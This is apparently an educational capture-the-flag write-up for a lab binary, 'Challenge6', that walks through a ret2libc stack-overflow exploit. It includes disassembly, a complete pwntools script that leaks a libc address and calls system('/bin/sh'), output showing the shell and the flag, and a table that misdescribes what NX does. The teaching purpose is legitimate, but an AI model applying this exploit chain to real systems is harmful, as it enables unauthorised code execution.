

# [__Challenge6__](#)

## Description: 

* Simple ret2libc example. Overflow the buffer and SFP, overwrite the `return address` to leak a `libc` address like `puts` and the trigger `bof` again to call `system("/bin/sh")`.

## Objective: 

* ret2libc.

## Flag:
* `FLAG{r3t2l1bC_1s_c00L!}`

## Challenge:

First of all, we start with a `checksec`:  

```console
gef➤  checksec
[+] checksec for '/home/w3th4nds/github/Thesis/challenge6/challenge/challenge6'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Full
```

It looks like `challenge1`.

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   | 
| :---:      | :---:    | :---:   |
| **Canary** | ❌       | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Allows code execution on stack |
| **PIE**    | ❌       | Randomizes the **base address** of the binary | 
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

* `Canary` is disabled, meaning we can have a possible `Buffer Overflow`.
* `PIE` is also disabled, meaning we know the base address of the binary and its functions and gadgets.

The interface of the program looks like this:



As we noticed before, there is indeed a `Buffer Overflow`, because after we entered a big amount of "A"s, the program stopped with `Segmentation fault`. This means we messed up with the addresses of the binary.

### Disassembly ⛏️

Starting from `main()`:

```cpp
undefined8 main(void)

{
  basic_ostream *this;
  
  setup();
  vulnerable_function();
  puts("\x1b[1;31m");
  this = std::operator<<((basic_ostream *)std::cout,"\n[-] You failed!\n");
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            ((basic_ostream<char,std::char_traits<char>> *)this,
             std::endl<char,std::char_traits<char>>);
  return 0;
}
```

It is clear that this is a `c++` binary.

There are some function calls:

* `setup()`   : Sets the appropriate buffers in order for the challenge to run.
* `banner()`  : Prints the banner.

Taking a better look at `vulnerable_function()`:

```cpp
void vulnerable_function(void)

{
  basic_ostream *pbVar1;
  undefined local_48 [64];
  
  buffer_demo();
  std::operator<<((basic_ostream *)std::cout,
                                    
                  "\n[*] The buffer is [72] bytes long and \'read(0, buf, 0x100)\' reads up to0x100 bytes.\n"
                 );
  pbVar1 = std::operator<<((basic_ostream *)std::cout,"[*] Steps: ");
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
             std::endl<char,std::char_traits<char>>);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,
                                                      
                           "[1] Overflow the buffer and SFP with 72 bytes of junk and overwrite\'Return address\'."
                          );
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
             std::endl<char,std::char_traits<char>>);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,
                           "[2] Pop \'$rdi\' to enter \'puts@got\' as first argument. ");
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
             std::endl<char,std::char_traits<char>>);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,
                           "[3] Use a \'ret\' gadget for stack alignment.");
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
             std::endl<char,std::char_traits<char>>);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,"[4] Call \'puts@plt\'.");
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
             std::endl<char,std::char_traits<char>>);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,
                           "[5] Return to \'main()\' to trigger Buffer Overflow again.");
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
             std::endl<char,std::char_traits<char>>);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,"[6] Repeat step[1].");
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
             std::endl<char,std::char_traits<char>>);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,
                           "[7] Repeat step[2] to enter \"/bin/sh\" as first argument.");
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
             std::endl<char,std::char_traits<char>>);
  std::operator<<((basic_ostream *)std::cout,"[8] Call \'system(\"/bin/sh\")\'.\n\n> ");
  read(0,local_48,0x100);
  return;
}
```

It calls `buffer_demo()` which prints the stack frame we saw at the interface. Then, there are some `cout` commands and then a `read(0, local_48. 0x100)`. `local_48` is 64 bytes as we can see here:

```cpp
undefined local_48 [64];
```
leading to a `Buffer Overflow`. There is no `win()` function, so we need to get shell or read the flag with another method.

### ret2libc 📚

We are going to use [ret2libc](https://en.wikipedia.org/wiki/Return-to-libc_attack) technique. It is mainly used when `NX` is enabled and we cannot execute code on the stack. In order to perform a `ret2libc` attack, we need some requirements first:

* We need to leak a `libc` address so we can calculate `libc base` address.
* We need a `buffer overflow`.

In this example, we have a `bof` as we saw earlier, meaning we can leak a libc address. But, why do we need to leak a libc address?

### ASLR

[ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) stands for `Address space layout randomization` and it basically changes the address of `libc base`, randomizing all the functions used by C library, like `puts`, `printf` etc. We can see how it is randomized here:

```console
➜  challenge git:(main) ✗ ldd challenge6 
	linux-vdso.so.1 (0x00007ffe857c8000)
	libstdc++.so.6 => /usr/lib/x86_64-linux-gnu/libstdc++.so.6 (0x00007f7b0b387000)
	libgcc_s.so.1 => /lib/x86_64-linux-gnu/libgcc_s.so.1 (0x00007f7b0b16f000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7b0ad7e000)
	libm.so.6 => /lib/x86_64-linux-gnu/libm.so.6 (0x00007f7b0a9e0000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f7b0b710000)
➜  challenge git:(main) ✗ ldd challenge6
	linux-vdso.so.1 (0x00007ffeb75d2000)
	libstdc++.so.6 => /usr/lib/x86_64-linux-gnu/libstdc++.so.6 (0x00007fb33f890000)
	libgcc_s.so.1 => /lib/x86_64-linux-gnu/libgcc_s.so.1 (0x00007fb33f678000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb33f287000)
	libm.so.6 => /lib/x86_64-linux-gnu/libm.so.6 (0x00007fb33eee9000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fb33fc19000)
➜  challenge git:(main) ✗ ldd challenge6
	linux-vdso.so.1 (0x00007fff6851c000)
	libstdc++.so.6 => /usr/lib/x86_64-linux-gnu/libstdc++.so.6 (0x00007f224ca7f000)
	libgcc_s.so.1 => /lib/x86_64-linux-gnu/libgcc_s.so.1 (0x00007f224c867000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f224c476000)
	libm.so.6 => /lib/x86_64-linux-gnu/libm.so.6 (0x00007f224c0d8000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f224ce08000)
```

We see that all addresses are randomized each time. The only thing that stays the same, is the `offset` of each function. If we take a look at `libc.so.6`:

```console
gef➤  p puts
$1 = {<text variable, no debug info>} 0x80aa0 <puts>
```

This is the offset of `puts` inside this current `libc`. So, if we leak `puts@got` and subtract this `offset`, we can calculate `libc base`.

Our payload should look like this:

```python
# puts(puts@got)
pop_rdi  = rop.find_gadget(["pop rdi"])[0]
payload  = b"A"*offset
payload += p64(pop_rdi)
payload += p64(e.got.puts)
payload += p64(pop_rdi+1) # ret gadget for alignment
payload += p64(e.plt.puts)
```

We used the `ELF` module of `pwntools` to calculate the `puts@plt` and `puts@got`.

The output is like this:

```console
➜  challenge git:(main) ✗ python solver.py
[*] '/home/w3th4nds/github/Thesis/challenge6/challenge/challenge6'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 22 cached gadgets for './challenge6'
[*] '/home/w3th4nds/github/Thesis/challenge6/challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 72
b' \xa0\x1a\xc0\x8dx\x7f\n'
```

```console
➜  challenge git:(main) ✗ python solver.py
[*] '/home/w3th4nds/github/Thesis/challenge6/challenge/challenge6'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 22 cached gadgets for './challenge6'
[*] '/home/w3th4nds/github/Thesis/challenge6/challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 72
b' \xa0j\xd7\x06R\x7f\n'
```

We see that the address is different each time. This happends due to `ASLR`. After we read this address, we need to convert it to int in order to do calculations. 

```python
leak = r.recvline_contains(b"\x7f").strip()
leak = u64(leak.ljust(8, b"\x00"))
print(colored("[+] Leaked address    @ 0x{:x}".format(leak), "green"))
libc.address = leak - libc.sym.puts
print(colored("[+] Libc base address @ 0x{:x}".format(libc.address), "green"))
```

We need to make sure that the `libc base` ends with "000", otherwise our calculations are off.

```python
# Check if libc base is correct, should end with 000
if libc.address & 0xfff != 000:
  print(colored("[-] Libc base does not end with 000!", "red"))
  exit()
```

After we calculate `libc base`, we can call `system("/bin/sh")` to spawn shell after we trigger `bof` again. We are going to call `system("/bin/sh")` the same way we did with `puts(puts@got)`.

### Exploit 📜

```python
#!/usr/bin/python3.8
import warnings
from pwn import *
from termcolor import colored
warnings.filterwarnings("ignore")
context.arch = "amd64"

fname = "./challenge6" 

e     = ELF(fname)
rop   = ROP(e)
libc  = ELF("./libc.so.6") 

LOCAL = False

prompt = ">"

def ret2libc(r, prompt, offset):
  # Craft payload to leak puts@got and return to main()
  # puts(puts@got)
  pop_rdi  = rop.find_gadget(["pop rdi"])[0]
  payload  = b"A"*offset
  payload += p64(pop_rdi)
  payload += p64(e.got.puts)
  payload += p64(pop_rdi+1) # ret gadget for alignment
  payload += p64(e.plt.puts)
  payload += p64(e.sym.main)
  r.sendlineafter(prompt, payload)

  # Leak puts@got address
  leak = r.recvline_contains(b"\x7f").strip()
  leak = u64(leak.ljust(8, b"\x00"))
  print(colored("[+] Leaked address    @ 0x{:x}".format(leak), "green"))
  libc.address = leak - libc.sym.puts
  print(colored("[+] Libc base address @ 0x{:x}".format(libc.address), "green"))
  
  # Check if libc base is correct, should end with 000
  if libc.address & 0xfff != 000:
   print(colored("[-] Libc base does not end with 000!", "red"))
   exit()

  # Craft payload to call system("/bin/sh") and spawn shell
  payload  = b"A"*offset
  payload += p64(pop_rdi)
  payload += p64(next(libc.search(b"/bin/sh")))
  payload += p64(libc.sym.system)
  r.sendlineafter(prompt, payload)
  r.interactive()


def pwn():
  # Find the overflow offset
  offset = 72
  
  # Open a local process or a remote instance
  if LOCAL:
    r   = process(fname)
  else:
    r   = remote("0.0.0.0", 1337)

  ret2libc(r, prompt, offset)

if __name__ == "__main__":
  pwn()
```

### PoC 🏁

```console
➜  challenge git:(main) ✗ python solver.py
[*] '/home/w3th4nds/github/Thesis/challenge6/challenge/challenge6'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 22 cached gadgets for './challenge6'
[*] '/home/w3th4nds/github/Thesis/challenge6/challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 72
[+] Leaked address    @ 0x7f8e98fd6aa0
[+] Libc base address @ 0x7f8e98f56000
 $ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag.txt
FLAG{r3t2l1bC_1s_c00L!}$ 
```
